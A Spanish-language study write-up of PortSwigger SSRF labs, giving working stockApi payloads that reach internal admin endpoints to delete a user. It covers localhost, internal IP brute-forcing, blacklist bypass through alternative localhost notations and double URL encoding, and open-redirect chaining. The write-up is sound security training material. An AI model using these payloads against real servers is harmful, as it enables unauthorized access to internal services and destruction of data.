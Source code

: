 # SSFR

La falsificación de solicitudes del lado del servidor (también conocida como SSRF) es una vulnerabilidad de seguridad web que permite a un atacante inducir a la aplicación del lado del servidor a realizar solicitudes a una ubicación no deseada.

En un ataque SSRF típico, el atacante puede hacer que el servidor establezca una conexión con servicios solo internos dentro de la infraestructura de la organización. En otros casos, pueden obligar al servidor a conectarse a sistemas externos arbitrarios, lo que podría filtrar datos confidenciales, como credenciales de autorización.

# Basic SSRF against the local server

Para este laboratorio nos damos cuenta que la peticion para revisar stock llama a una api 
entonces sopechamos que podemos que puede hacer peticiones a nombre del servidor


```
stockApi=http://localhost/admin/delete?username=carlos


```
Y borramos el usuario.


# Basic SSRF against another back-end system

Para este laboratorio usamos el intruder en el stock usamos el intruder con el payload brute force del 1 al 255
recordar usar el url encode.


```
stockApi=http://192.168.0.estenumerovaria:8080/admin/delete?username=carlos

```

Y borramos el usuario.

# SSRF with blacklist-based input filter

Para este lab se necesita bypasear la proteccion para que se permita acceder al /admin y posteriormente borrar un usuario:

## Local host y sus diferentes representaciones

Esta bloqueado el 127.0.0.1 entonces necesitamos usar otra representacion algunas de estas son:

```
-2130706433
-017700000001
-127.1
```
Se uso el 127.1 lo que nos hace pensar que podria ser un filtro que compara Regex. Despues se intenta meter al /admin pero esta bloqueada.

```
stockApi=http://127.1/admin
stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65

```

Entonces lo que tenemos que hacer es Url encodear seleccionando el string clic derecho -> convert selection -> URL -> url-encode-all-the Characters.
Y lo hacemos 2 veces con lo cual bypasea la regex y permite que se borre al usuario.

```
stockApi=http://127.1/%25%36%31%25%36%34%25%36%64%25%36%39%25%36%65/delete?username=carlos

```
FIN

# SSRF with filter bypass via open redirection vulnerability

Para este lab se tienen que hacer uso de varios conceptos como:

## Open Redirect

> An open redirect vulnerability occurs when an application allows a user to control a redirect or forward to another URL. If the app does not validate untrusted user input, an attacker could supply a URL that redirects an unsuspecting victim from a legitimate domain to an attacker's phishing site.

Si intentamos hacer SSRF nos damos cuenta que no se puede pero si te das cuenta existe un boton de next item el cual tiene un path que se pasa como argumento

```
GET /product/nextProduct?currentProductId=1&path=https://ww.google.com/ HTTP/1.1

```

Si vamos a la pagina que checa el stock nos damos cuenta que tambien ve en la ruta /product:


```
stockApi=/product/stock/check?productId=1&storeId=1

```
Entonces recordando como se pasa la informacion en html(tarea eso y lo de los forms) nos da la idea que quiza podemos usar la redireccion desde aqui.
Usar el URL encode para esta peticion pero tambien observar que si visitas el /admin si lo visita y nos muestra el panel de control.


```
/product/nextProduct?path=http://192.168.0.12:8080/admin/delete?username=carlos
```
Finalmente nos damos cuenta que se se puede y borramos el usuario

Referencia

> https://portswigger.net/web-security/ssrf
